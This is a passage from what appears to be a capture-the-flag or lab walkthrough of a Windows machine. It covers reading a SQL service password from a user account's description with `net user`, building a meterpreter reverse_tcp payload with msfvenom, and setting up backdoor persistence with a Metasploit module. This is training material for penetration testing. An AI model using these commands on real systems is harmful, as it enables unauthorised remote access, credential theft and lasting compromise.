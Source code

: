 `eventvwr.exe` ceck the "Application Name"

### 6.2

What is the SQL Service password

`net user sqlservice` reveals the Password in description.

---

## Task 07:  Maintaining Access

1. Generating a Payload w/ msfvenom
   1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe`
      1.  `p` : Payload, here we're using windows based meterpreter
      2.  `LHOST`: local IP addrress, where we will be receiving the backdoor access.
      3.  `LPORT`: the port number
      4.  `f` : format of the exe file.
      5.  `o` : output file name and location.

**Read this post for more details: [msf-run](https://classroom.anir0y.in/post/msf-runscript/)**

2. Run the Persistence Module -
   1. `use exploit/windows/local/persistence`
   2. set `session 1` set the session to the session that we backgrounded in meterpreter (you can use the `sessions` command in metasploit to list the active sessions)
   3. `run` it!

---


<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>


